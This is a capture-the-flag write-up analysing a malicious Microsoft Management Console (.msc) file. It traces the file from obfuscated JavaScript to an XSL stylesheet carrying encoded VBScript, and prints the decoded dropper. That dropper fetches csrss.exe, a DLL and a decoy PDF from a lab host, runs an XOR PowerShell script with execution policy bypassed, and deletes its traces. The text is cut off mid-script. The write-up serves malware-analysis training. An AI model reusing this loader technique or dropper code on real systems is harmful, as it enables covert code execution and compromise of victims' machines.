# WRITE_UP #

## BINARY BADRESOURCES ##

### 1. Analysis ###
* **Given:** a file named `wanted.msc`.
* **Description:** From the spreadsheet
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
An `.msc` file is a **Microsoft Management Console Snap-in Control** file. It is used by **Microsoft Management Console** (mmc.exe) to store console configurations, such as Services, Event Viewer, Device Manager, or other administrative snap-ins.
  
Normally, an `.msc` file opens a Windows management interface. But do attackers only think that? Let's see.

First, running `strings` revealed something interesting about this file:





That looks like an obfuscated javascript. So I copied that script to [deobfuscate.io](https://obf-io.deobfuscate.io/) to see if it could be deobfuscated automatically:



```js
var scopeNamespace = external.Document.ScopeNamespace;
var rootNode = scopeNamespace.GetRoot();
var mainNode = scopeNamespace.GetChild(rootNode);
var docNode = scopeNamespace.GetNext(mainNode);
external.Document.ActiveView.ActiveScopeNode = docNode;
docObject = external.Document.ActiveView.ControlObject;
external.Document.ActiveView.ActiveScopeNode = mainNode;
docObject.async = false;
docObject.loadXML(unescape("%3C%3Fxml%20version%3D%271%2E0%27%3F%3E%0D%0A%3Cstylesheet%0D%0A%20%20%20%20xmlns%3D%22http%3A%2F%2Fwww%2Ew3%2Eorg%2F1999%2FXSL%2FTransform%22%20xmlns%3Ams%3D%22urn%3Aschemas%2Dmicrosoft%2Dcom%3Axslt%22%0D%0A%20%20%20%20xmlns%3Auser%3D%22placeholder%22%0D%0A%20%20%20%20version%3D%221%2E0%22%3E%0D%0A%20%20%20%20%3Coutput%20method%3D%22text%22%2F%3E%0D%0A%20%20%20%20%3Cms%3Ascript%20implements%2Dprefix%3D%22user%22%20language%3D%22VBScript%22%3E%0D%0A%20%20%20%20%3C%21%5BCDATA%5B%0D%0ATpHCM%20%3D%20%22%22%3Afor%20i%20%3D%201%20to%203222%3A%20TpHCM%20%3D%20TpHCM%20%2B%20chr%28Asc%28mid%28%22Stxmsr%24I%7Ctpmgmx%0EHmq%24sfnWlipp0%24sfnJWS0%24sfnLXXT%0EHmq%24wxvYVP50%24wxvYVP60%24wxvYVP70%24wxvWls%7BjmpiYVP%0EHmq%24wxvHs%7BrpsehTexl50%24wxvHs%7BrpsehTexl60%24wxvHs%7BrpsehTexl70%24wxvWls%7BjmpiTexl%0EHmq%24wxvI%7CigyxefpiTexl0%24wxvTs%7BivWlippWgvmtx%0EwxvYVP5%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2i%7Ci%26%0EwxvYVP6%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2hpp%26%0EwxvYVP7%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3gwvww2i%7Ci2gsrjmk%26%0EwxvWls%7BjmpiYVP%24A%24%26lxxt%3E33%7Bmrhs%7Bwythexi2lxf3%7Berxih2thj%26%0EwxvHs%7BrpsehTexl5%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0EwxvHs%7BrpsehTexl6%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2hpp%26%0EwxvHs%7BrpsehTexl7%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci2gsrjmk%26%0EwxvWls%7BjmpiTexl%24A%24%26G%3E%60Ywivw%60Tyfpmg%60%7Berxih2thj%26%0EwxvI%7CigyxefpiTexl%24A%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0E%0EWix%24sfnWlipp%24A%24GviexiSfnigx%2C%26%5BWgvmtx2Wlipp%26%2D%0EWix%24sfnJWS%24A%24GviexiSfnigx%2C%26Wgvmtxmrk2JmpiW%7DwxiqSfnigx%26%2D%0EWix%24sfnLXXT%24A%24GviexiSfnigx%2C%26QW%5CQP62%5CQPLXXT%26%2D%0E%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl5%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP50%24wxvHs%7BrpsehTexl5%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl6%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP60%24wxvHs%7BrpsehTexl6%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvHs%7BrpsehTexl7%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvYVP70%24wxvHs%7BrpsehTexl7%0EIrh%24Mj%0EMj%24Rsx%24sfnJWS2JmpiI%7Cmwxw%2CwxvWls%7BjmpiTexl%2D%24Xlir%0E%24%24%24%24Hs%7BrpsehJmpi%24wxvWls%7BjmpiYVP0%24wxvWls%7BjmpiTexl%0EIrh%24Mj%0E%0EwxvTs%7BivWlippWgvmtx%24A%24c%0E%26teveq%24%2C%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%5Fwxvmrka%28JmpiTexl0%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%5Fwxvmrka%28Oi%7DTexl%26%24%2A%24zfGvPj%24%2A%24c%0E%26%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28oi%7D%24A%24%5FW%7Dwxiq2MS2Jmpia%3E%3EViehEppF%7Dxiw%2C%28Oi%7DTexl%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28jmpiGsrxirx%24A%24%5FW%7Dwxiq2MS2Jmpia%3E%3EViehEppF%7Dxiw%2C%28JmpiTexl%2D%26%24%2A%24zfGvPj%24%2A%24c%0E%26%28oi%7DPirkxl%24A%24%28oi%7D2Pirkxl%26%24%2A%24zfGvPj%24%2A%24c%0E%26jsv%24%2C%28m%24A%244%3F%24%28m%241px%24%28jmpiGsrxirx2Pirkxl%3F%24%28m%2F%2F%2D%24%7F%26%24%2A%24zfGvPj%24%2A%24c%0E%26%24%24%24%24%28jmpiGsrxirx%5F%28ma%24A%24%28jmpiGsrxirx%5F%28ma%241f%7Csv%24%28oi%7D%5F%28m%24%29%24%28oi%7DPirkxla%26%24%2A%24zfGvPj%24%2A%24c%0E%26%C2%81%26%24%2A%24zfGvPj%24%2A%24c%0E%26%5FW%7Dwxiq2MS2Jmpia%3E%3E%5BvmxiEppF%7Dxiw%2C%28JmpiTexl0%24%28jmpiGsrxirx%2D%26%24%2A%24zfGvPj%0E%0EHmq%24sfnJmpi%0ESr%24Ivvsv%24Viwyqi%24Ri%7Cx%0EWix%24sfnJmpi%24A%24sfnJWS2GviexiXi%7CxJmpi%2C%26G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%260%24Xvyi%2D%0EMj%24Ivv2Ryqfiv%24%40B%244%24Xlir%0E%24%24%24%24%5BWgvmtx2Igls%24%26Ivvsv%24gviexmrk%24Ts%7BivWlipp%24wgvmtx%24jmpi%3E%24%26%24%2A%24Ivv2Hiwgvmtxmsr%0E%24%24%24%24%5BWgvmtx2Uymx%0EIrh%24Mj%0EsfnJmpi2%5BvmxiPmri%24wxvTs%7BivWlippWgvmtx%0EsfnJmpi2Gpswi%0E%0EHmq%24evvJmpiTexlw%0EevvJmpiTexlw%24A%24Evve%7D%2CwxvHs%7BrpsehTexl50%24wxvHs%7BrpsehTexl70%24wxvWls%7BjmpiTexl%2D%0E%0EHmq%24m%0EJsv%24m%24A%244%24Xs%24YFsyrh%2CevvJmpiTexlw%2D%0E%24%24%24%24Hmq%24mrxVixyvrGshi%0E%24%24%24%24mrxVixyvrGshi%24A%24sfnWlipp2Vyr%2C%26ts%7Bivwlipp%241I%7CigyxmsrTspmg%7D%24F%7Dteww%241Jmpi%24G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%241JmpiTexl%24%26%24%2A%24Glv%2C78%2D%24%2A%24evvJmpiTexlw%2Cm%2D%24%2A%24Glv%2C78%2D%24%2A%24%26%241Oi%7DTexl%24%26%24%2A%24Glv%2C78%2D%24%2A%24wxvHs%7BrpsehTexl6%24%2A%24Glv%2C78%2D0%2440%24Xvyi%2D%0E%24%24%24%24%0E%24%24%24%24Mj%24mrxVixyvrGshi%24%40B%244%24Xlir%0E%24%24%24%24%24%24%24%24%5BWgvmtx2Igls%24%26Ts%7BivWlipp%24wgvmtx%24i%7Cigyxmsr%24jempih%24jsv%24%26%24%2A%24evvJmpiTexlw%2Cm%2D%24%2A%24%26%24%7Bmxl%24i%7Cmx%24gshi%3E%24%26%24%2A%24mrxVixyvrGshi%0E%24%24%24%24Irh%24Mj%0ERi%7Cx%0E%0EsfnWlipp2Vyr%24wxvI%7CigyxefpiTexl0%2450%24Xvyi%0EsfnWlipp2Vyr%24wxvWls%7BjmpiTexl0%2450%24Xvyi%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2hpp%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60gwvww2i%7Ci2gsrjmk%26%0EsfnJWS2HipixiJmpi%24%26G%3E%60Ywivw%60Tyfpmg%60xiqt2tw5%26%0E%0EWyf%24Hs%7BrpsehJmpi%2Cyvp0%24texl%2D%0E%24%24%24%24Hmq%24sfnWxvieq%0E%24%24%24%24Wix%24sfnWxvieq%24A%24GviexiSfnigx%2C%26EHSHF2Wxvieq%26%2D%0E%24%24%24%24sfnLXXT2Stir%24%26KIX%260%24yvp0%24Jepwi%0E%24%24%24%24sfnLXXT2Wirh%0E%24%24%24%24Mj%24sfnLXXT2Wxexyw%24A%24644%24Xlir%0E%24%24%24%24%24%24%24%24sfnWxvieq2Stir%0E%24%24%24%24%24%24%24%24sfnWxvieq2X%7Dti%24A%245%0E%24%24%24%24%24%24%24%24sfnWxvieq2%5Bvmxi%24sfnLXXT2ViwtsrwiFsh%7D%0E%24%24%24%24%24%24%24%24sfnWxvieq2WeziXsJmpi%24texl0%246%0E%24%24%24%24%24%24%24%24sfnWxvieq2Gpswi%0E%24%24%24%24Irh%24Mj%0E%24%24%24%24Wix%24sfnWxvieq%24A%24Rsxlmrk%0EIrh%24Wyf%0E%22%2Ci%2C1%29%29%20%2D%20%285%29%20%2B%20%281%29%29%3ANext%3AExecute%20TpHCM%3A%0D%0A%20%20%20%20%5D%5D%3E%0D%0A%20%20%20%20%3C%2Fms%3Ascript%3E%0D%0A%3C%2Fstylesheet%3E"));
docObject.transformNode(docObject);
```
This script is JavaScript running inside the `.msc` file. Its main purpose is to get an XML object from MMC, load malicious XSL/VBScript into it, and force it to execute.

The flow is:

```js
    var scopeNamespace = external.Document.ScopeNamespace;
```
* To get the namespace of the current MMC document. `external.Document` is an object exposed by MMC to scripts running inside the `.msc` file.
```js
var rootNode = scopeNamespace.GetRoot();
var mainNode = scopeNamespace.GetChild(rootNode);
var docNode = scopeNamespace.GetNext(mainNode);
```
* These lines walk through the MMC node tree: Root node -> Main node -> Document node
Then:
```js
external.Document.ActiveView.ActiveScopeNode = docNode;
docObject = external.Document.ActiveView.ControlObject;
```
* The script selects `docNode` and gets its `ControlObject`. This object is used as an XML DOM object, meaning the script can call methods such as:
```js
loadXML()
transformNode()
```
* Then it called:
```js
docObject.async = false;
docObject.loadXML(unescape("..."));
```
`unescape()` decodes the URL-encoded string. Finally, `transformNode()` is called to execute the malicious script.

Using CyberChef, we can decode the URL string:



After decoding, there's a XSL stylesheet which contains another obfuscated VBScript:
```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf",i,1)) - (5) + (1)):Next:Execute TpHCM:
    ]]>
    </ms:script>
</stylesheet>
```
The script is quite simple, we only need to understand this to see how it work:
```vb
TpHCM = "":for i = 1 to 3222: TpHCM = TpHCM + chr(Asc(mid("...",i,1)) - (5) + (1))
```
Apparently, the script tries to create an empty string named `TpHCM`, then using a for loop from 1 to 3222 to decode the string:
* `mid("...", i, 1)` takes 1 character from index `i` in string `...`
* `Asc(mid("...", i, 1)) - (5) + (1)` converts it to ASCII code, then subtracts 4 from its first code to get the last one, .eg: "W" = 87, 87 - 4 = 83, 83 = "S"
* `chr(Asc(mid("...",i,1)) - (5) + (1))` converts the ASCII numbers back to character.

After acknowledging the function, I wrote a small python script to decode the encoded string:

```py
import urllib.parse
import re

data = open("encoded.txt", "r", encoding="latin-1").read()
xsl = urllib.parse.unquote(data)

m = re.search(r'mid\("([\s\S]*?)",i,1\)\) - \(5\) \+ \(1\)', xsl)
blob = m.group(1)

decoded = ''.join(chr(ord(c) - 4) for c in blob)
print(decoded)
```





The last VBScript looks like this:
```vb
Option Explicit
Dim objShell, objFSO, objHTTP
Dim strURL1, strURL2, strURL3, strShowfileURL
Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
Dim strExecutablePath, strPowerShellScript
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
strDownloadPath1 = "C:\Users\Public\csrss.exe"
strDownloadPath2 = "C:\Users\Public\csrss.dll"
strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
strShowfilePath = "C:\Users\Public\wanted.pdf"
strExecutablePath = "C:\Users\Public\csrss.exe"

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objHTTP = CreateObject("MSXML2.XMLHTTP")

If Not objFSO.FileExists(strDownloadPath1) Then
    DownloadFile strURL1, strDownloadPath1
End If
If Not objFSO.FileExists(strDownloadPath2) Then
    DownloadFile strURL2, strDownloadPath2
End If
If Not objFSO.FileExists(strDownloadPath3) Then
    DownloadFile strURL3, strDownloadPath3
End If
If Not objFSO.FileExists(strShowfilePath) Then
    DownloadFile strShowfileURL, strShowfilePath
End If

strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"}" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
If Err.Number <> 0 Then
    WScript.Echo "Error creating PowerShell script file: " & Err.Description
    WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close

Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

Dim i
